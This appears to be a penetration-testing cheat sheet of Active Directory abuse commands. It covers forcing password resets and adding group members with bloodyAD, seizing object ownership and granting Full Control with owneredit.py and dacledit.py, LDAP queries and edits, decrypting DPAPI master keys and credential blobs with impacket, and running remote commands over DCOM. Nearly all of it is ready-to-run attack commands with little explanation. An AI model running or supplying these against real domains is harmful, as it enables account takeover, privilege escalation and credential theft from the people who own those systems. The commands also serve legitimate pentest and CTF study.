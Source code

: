 


### 1. ForceChange User password using BloodyAD


If we have `ForceChangePassword` over a user, we can use bloodyAD to change their password


```bash
bloodyAD --host $IP -u 'ownedUser' -p 'password' set password 'targetuser' 'password-to-be-set'
```



### 2. Add a user to a group using BloodyAD


If we have `AddSelf` for a user or `GenericAll`, we can add them to a group using bloodyAD


```bash
bloodyAD --host $IP -d domain -u 'owneduser' -p 'password' add groupMember "GroupName" "User-to-be-added"
```




### 3. Change OwnerShip of a user  using ownerdit.py


If we have WriteOwner right over a user object, we can use `owneredit.py` to change the object ownership


```bash
owneredit.py domain/owneruser -target 'user-whose-ownership-is-to-be-changed' -action write -new-owner 'new-owner'
```





### 4. Granting GenericAll privilege to abuse ownership of a user object using dacledit.py


```bash
dacledit.py -action write -rights 'Full Control' -principal 'owneduser' -target 'targetuser' 'domain/owneduser:password'
```





### 5. Finding DN of a user with ldapsearch


```bash
ldapsearch -x -H ldap://<IP> -D "username@domain" -W -b "dc=domain,dc=com" "(sAMAccountName=<username>)"
```





### 6.  LdapModify with an LDIF file


```bash
ldapmodify -x -H ldap://<ip> -D "username@domain" -W -f <ldif_file
```





### 7. Decrypting DPAPI master key 


```bash
impacket-dpapi -master <masterkeyfile> -sid SID -password <password_of_the_user>
```




### 8. Decrypting DPAPI credential blob


```bash
impacket-dpapi -key <decrypted_master_key> -cred <encrypted_cred_blob>
```





## 9. Executing Commands Via DCOM on a remote machine


```bash
dcomexec.py domain/username:password@ip -dc-ip <ip> -M MMC20 'command'
```

